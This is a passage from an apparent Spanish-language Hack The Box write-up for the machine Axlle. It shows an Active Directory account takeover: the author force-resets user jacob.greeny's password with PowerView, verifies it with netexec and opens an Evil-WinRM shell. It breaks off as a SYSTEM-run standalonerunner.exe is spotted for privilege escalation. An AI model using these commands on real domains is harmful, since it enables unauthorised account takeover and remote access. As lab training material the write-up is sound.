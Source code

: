 Y ahora me puedo crear un nuevo objeto de `SecureString`.
```powershell
PS C:\Users\dallon.matrix\Desktop> $NewPassword = ConvertTo-SecureString 'Pointed123@' -AsPlainText -Force
```

Y puedo cambiarle la credencial a `jacob.greeny`
```powershell
PS C:\Users\dallon.matrix\Desktop> Set-DomainUserPassword -Identity 'jacob.greeny' -AccountPassword $NewPassword
```

Con `netexec` podemos comprobar que hemos cambiado la credencial correctamente.
```shell
$ nxc smb 10.129.253.213 -u 'jacob.greeny' -p 'Pointed123@'
SMB         10.129.253.213  445    MAINFRAME        [*] Windows Server 2022 Build 20348 x64 (name:MAINFRAME) (domain:axlle.htb) (signing:True) (SMBv1:False)
SMB         10.129.253.213  445    MAINFRAME        [+] axlle.htb\jacob.greeny:Pointed123@
```

Y por alguna razón `netexec` me reporta que no tengo permisos para conectarme por WinRM
```shell
$ nxc winrm 10.129.253.213 -u 'jacob.greeny' -p 'Pointed123@'
WINRM       10.129.253.213  5985   MAINFRAME        [*] Windows Server 2022 Build 20348 (name:MAINFRAME) (domain:axlle.htb)
WINRM       10.129.253.213  5985   MAINFRAME        [-] axlle.htb\jacob.greeny:Pointed123@

```

pero `evil-winrm` demuestra lo contrario....
```shell
$ evil-winrm -i 10.129.253.213 -u 'jacob.greeny' -p 'Pointed123@'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jacob.greeny\Documents> whoami
axlle\jacob.greeny
```

# Privilege Escalation - Abusing StandaloneRunner
Ahora que ya somos `jacob.greeny`

Antes, había visto un directorio al cual no podía acceder, ahora como este usuario si puedo acceder.
`C:\App Development`

Nos encontramos un proyecto en `C#` llamado `kbfiltr` , leyendo el `README.md` encontramos esto que me llama la atención.
```
**NOTE: I have automated the running of `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` as SYSTEM to test and debug this driver in a standalone environment**
```
